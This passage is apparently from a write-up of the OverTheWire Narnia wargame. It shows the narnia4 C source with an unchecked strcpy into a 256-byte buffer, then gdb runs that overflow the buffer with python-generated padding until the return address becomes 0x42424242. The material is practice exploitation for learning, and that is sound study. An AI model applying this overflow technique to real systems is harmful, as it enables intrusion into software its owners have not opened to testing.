 <img src="img/Pasted image 20240720183557.png" alt="Example Image" width="1080"/>
see content of narnia4 got copied to `/tmp/get`

```
narnia3@gibson:/tmp$ cat /tmp/get
```

---

**Narnia4**

```
narnia4@gibson:~$ cd /narnia/
narnia4@gibson:/narnia$ cat narnia4.c
```

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

buffer had the size of `256`  , if an argument is provided that string copy into buffer, let's go to `gdb`

```
(gdb) r $(python3 -c "print('A'*256 + 'BBBB')")
```

Check for BufferOverFlow vulnerability 

```c
(gdb) r $(python3 -c "print('A'*256 + 'BBBB')")
Starting program: /narnia/narnia4 $(python3 -c "print('A'*256 + 'BBBB')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 1 (process 2077712) exited normally]
(gdb) r $(python3 -c "print('A'*264 + 'BBBB')")
Starting program: /narnia/narnia4 $(python3 -c "print('A'*264 + 'BBBB')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```